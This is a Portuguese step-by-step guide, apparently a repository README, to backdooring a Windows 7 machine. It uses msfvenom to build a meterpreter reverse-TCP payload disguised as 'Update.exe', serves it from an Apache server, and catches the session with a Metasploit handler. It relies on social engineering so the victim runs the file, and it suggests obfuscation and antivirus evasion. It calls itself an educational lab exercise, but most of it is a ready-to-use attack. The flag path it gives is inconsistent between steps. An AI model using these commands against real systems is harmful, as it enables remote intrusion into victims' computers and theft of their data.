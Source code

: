 # 🚀 Guia de Adição de Backdoor em Executáveis com Kali Linux

## 🛠️ Ferramentas Necessárias

- 💻 **Kali Linux** + 🛠️ **Metasploit Framework**
- 💻 **Windows 7**

---

## 🔎 Visão Geral

Este guia apresenta um método básico para explorar uma máquina Windows 7 usando Kali Linux, Metasploit Framework e um servidor Apache para hospedar um payload malicioso. O ataque descrito aqui é rudimentar e depende da engenharia social para enganar o usuário a baixar e executar o arquivo. 

---

## 🔧 Configuração do Kali Linux

### 1️⃣ Abrir o terminal e obter privilégios de root

```
Sudo su
(Senha do seu Kali)
```

### 2️⃣ Obter o endereço IP do Kali

```
ip addr
```
- Anote o IP exibido na interface correta (geralmente *eth0* ou *wlan0*).

### 3️⃣ Criando o Payload Backdoor

Gerar um executável malicioso com o **msfvenom**:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f exe LHOST=X.X.X.X LPORT=4444 -o Update.exe
```
- Substitua X.X.X.X pelo IP do Kali.
- LPORT=4444 define a porta usada para conexão reversa.
- Update.exe é o nome do arquivo malicioso (pode ser modificado para algo mais convincente).

### 4️⃣ Hospedando o Arquivo
Iniciar um servidor Apache para que a vítima baixe o arquivo:

```
service apache2 start
```

Mover o arquivo malicioso para o diretório do servidor web:
```
mv Update.exe /var/www/html/
```

Verificar se o arquivo está no diretório correto:
```
cd /var/www/html && ls
```

## 🎯 Configuração do Metasploit

### 1️⃣ Iniciar o Metasploit Framework
```
msfconsole
```

### 2️⃣ Configurar o Listener

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST X.X.X.X (# IP do Kali Linux.)
set LPORT 4444 (# Mesma porta definida no payload.)
exploit
```
- Aguarde a conexão da vítima.

## 💻 Execução no Windows 7 (Máquina Alvo)

### 1️⃣ Criar um Arquivo de Flag

```
echo "Backdoor ativo!" > C:\Users\Public\flag.txt
```

### 2️⃣ Obter o IP da Máquina

```
ipconfig
```

### 3️⃣ Baixar e Executar o Arquivo Malicioso

- Abrir o navegador e acessar:
```
http://X.X.X.X/Update.exe (# Substituir X.X.X.X pelo IP do Kali Linux.)
```
- Baixar e executar o arquivo.
- Assim que a vítima executar, a sessão Meterpreter será iniciada no Kali Linux.

## 🕵️ Exploração na Máquina Alvo

### 1️⃣ Verificar a Sessão Ativa

```
sessions
```

### 2️⃣ Conectar-se à Máquina Comprometida

```
sessions X  # Substitua X pelo ID da sessão
```

#### 3️⃣ Navegar entre diretórios

```
dir
cd ..
cd Desktop
``` 

### 4️⃣ Localizar e ler a flag

```
type "%USERPROFILE%\Desktop\flag.txt"
```
- Isso exibirá o conteúdo do arquivo no CMD sem alertar o usuário.
---

## ⚠️ **Atenção**
Este guia é apenas para fins educativos e de segurança ofensiva em ambientes controlados. Não utilize para atividades maliciosas.

📊 Resultados

## 📊 **Resultados**
Este ataque foi testado em ambiente controlado e depende de engenharia social para que a vítima baixe e execute o arquivo. A eficácia pode ser aumentada com técnicas de ofuscação do payload, bypassing de antivírus e disfarces convincentes. Use com responsabilidade!